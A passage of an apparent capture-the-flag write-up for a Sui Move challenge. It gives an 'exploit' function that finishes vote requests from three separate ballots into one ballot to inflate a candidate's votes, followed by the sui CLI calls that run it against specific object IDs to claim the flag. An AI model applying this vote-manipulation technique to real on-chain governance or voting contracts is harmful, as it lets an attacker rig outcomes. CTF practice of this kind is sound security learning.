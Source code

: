             // register candidate
            register(ctx);
        }

        public fun exploit(
            briber: &mut Briber,
            candiate: &mut Candidate, 
            ballot1: &mut Ballot, 
            ballot2: &mut Ballot, 
            ballot3: &mut Ballot,
            github_id: String,
            ctx: &mut TxContext
        ) {
            // amend candidate's account
            let account = required_candidate();
            amend_account(candiate, account);

            // create vote requests
            let mut req1 = ballot1.request_vote();
            let mut req2 = ballot2.request_vote();
            let mut req3 = ballot3.request_vote();

            // vote with each request
            vote(candiate, &mut req1, 10);
            vote(candiate, &mut req2, 10);
            vote(candiate, &mut req3, 10);

            // finish voting into ballot1
            finish_voting(ballot1, req1);
            finish_voting(ballot1, req2);
            finish_voting(ballot1, req3);

            get_flag(briber, ballot1, github_id, ctx);
        }
    }
    ```
2. Call `create_ballots_and_register_candidate()` to create 3 ballots & 1 candidate
    ```
    sui client call \
      --package 0x0143395bf3c44b39540af68983cdfd040a37babf49479fc1f7cd0e8fec71f68c \
      --module solve_week3 \
      --function create_ballots_and_register_candidate \
      --gas-budget 100000000
    ```
    get
    - candidate id: `0x5f302afca20ab9de6fe4ac4de0f8671255f050d1eb19c9e78d8d3d4851c3d225`
    - ballot1: `0x338d9750032ba14d330ca1e7f2e86113be6e18e72c7d85eaa53e8e79e4e4586e`
    - ballot2: `0x638bbed18beb82d4e8741b45b0b95431f15004a6c68c4bc7146b85a2dc3d05f0`
    - ballot3: `0xe6261fa047bc0d96633531673def6f2bfe5584bdbbb8a07761d0c21c255e869f`
3. With briber id: `0x071696c2d60a84dfb401dd6f8cb8ca69e23000ba20cdb10c06b19ea29dda28b5`, call `exploit()`
    ```
    sui client call \
      --package 0x0143395bf3c44b39540af68983cdfd040a37babf49479fc1f7cd0e8fec71f68c \
      --module solve_week3 \
      --function exploit \
      --args \
        0x071696c2d60a84dfb401dd6f8cb8ca69e23000ba20cdb10c06b19ea29dda28b5 \
        0x5f302afca20ab9de6fe4ac4de0f8671255f050d1eb19c9e78d8d3d4851c3d225 \
        0x338d9750032ba14d330ca1e7f2e86113be6e18e72c7d85eaa53e8e79e4e4586e \
        0x638bbed18beb82d4e8741b45b0b95431f15004a6c68c4bc7146b85a2dc3d05f0 \
        0xe6261fa047bc0d96633531673def6f2bfe5584bdbbb8a07761d0c21c255e869f \
        e3b4dfe8-845e-4bda-8de1-ad0b72975cbd
      --gas-budget 100000000
    ```
